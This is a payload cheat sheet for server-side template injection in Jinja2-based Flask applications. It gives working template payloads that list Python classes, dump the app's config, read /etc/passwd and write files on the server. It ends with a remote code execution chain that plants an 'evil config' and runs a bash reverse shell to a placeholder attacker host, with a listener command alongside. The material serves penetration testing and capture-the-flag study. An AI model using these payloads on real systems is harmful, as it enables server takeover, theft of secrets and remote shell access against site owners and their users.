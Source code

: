 # Templates Injections

Template injection allows an attacker to include template code into an existant (or not) template.

## Jinja2
[Official website](http://jinja.pocoo.org/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on Flask application.
#### Template format
```
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

#### Dump all used classes
```
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

#### Dump all config variables
```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

#### Read remote file
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }} 
```

#### Write into remote file
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

#### Remote Code Execution via reverse shell
Listen for connexion 
```
nv -lnvp 8000
```
Inject this template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

#### Ressources & Sources
[https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)

#### Training
[https://w3challs.com/](https://w3challs.com/)
